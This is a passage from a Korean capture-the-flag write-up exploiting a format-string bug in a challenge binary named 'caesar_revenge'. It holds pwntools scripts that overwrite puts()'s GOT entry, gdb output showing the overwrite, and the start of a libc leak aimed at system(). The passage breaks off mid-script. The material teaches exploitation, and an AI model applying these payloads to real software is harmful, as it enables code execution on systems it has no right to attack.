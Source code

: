 ```python
# exploit_caesar_revenge.py

from pwn import *

e = ELF("./caesar_revenge")

addr_puts_got = e.got["puts"] # GOT address of puts()
addr_strtol_got = e.got["strtol"] # GOT address of strtol()
addr_caesar = 0x401196 # address of caesar()

p = process("./caesar_revenge")

# make loop
payload = "%" + str(addr_caesar) + "x%26$ln"
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

p.sendlineafter("encoded: ", payload)
p.recvuntil("shift: ")
pause()
p.sendline("26")

p.interactive()
```

`%26%$ln` 이전에 `addr_caesar` 만큼의 문자가 출력되기 때문에, `addr_puts_got`이 가리키는 8바이트의 메모리 공간에 `addr_caesar`가 입력될 것이다. `pause()`가 걸린 상태에서 gdb에 attach하고, 암호문을 출력하는 `printf()`가 실행되기 전후의 메모리를 비교해 보자. 실행되기 전의 메모리는 다음과 같다.

```bash
gdb-peda$ x/gx 0x404018
0x404018:	0x00007f0ec7d9f9c0
gdb-peda$ print puts
$1 = {int (const char *)} 0x7f0ec7d9f9c0 <_IO_puts>
```

GOT에 `puts()`의 주소가 잘 들어가 있다. `printf()`가 실행되고 난 후의 메모리는 다음과 같다.

```bash
gdb-peda$ x/gx 0x404018
0x404018:	0x0000000000401196
```

GOT가 성공적으로 overwrite되었다! 이제 `caesar()`가 반복해서 실행될 것이다.

---

이번에는 libc의 주소를 leak할 것이다. 링크된 임의의 라이브러리 함수의 GOT 주소를 스택에 적어 두고, 그 위치로 접근하여 `%s`를 써서 GOT에 저장된 값을 뽑아낼 것이다. 물론 `puts()`의 GOT는 이미 overwrite되었기 때문에 사용할 수 없다. `strtol()`을 이용해서 릭을 수행해 보자.

```python
# exploit_caesar_revenge.py

from pwn import *

e = ELF("./caesar_revenge")

addr_puts_got = e.got["puts"] # GOT address of puts()
addr_strtol_got = e.got["strtol"] # GOT address of strtol()
addr_caesar = 0x401196 # address of caesar()
offset_strtol = 0x45110 # offset of strtol() from libc base
offset_system = 0x4f440 # offset of system() from libc base

p = process("./caesar_revenge")

# make loop
payload = "%" + str(addr_caesar) + "x%26$ln"
```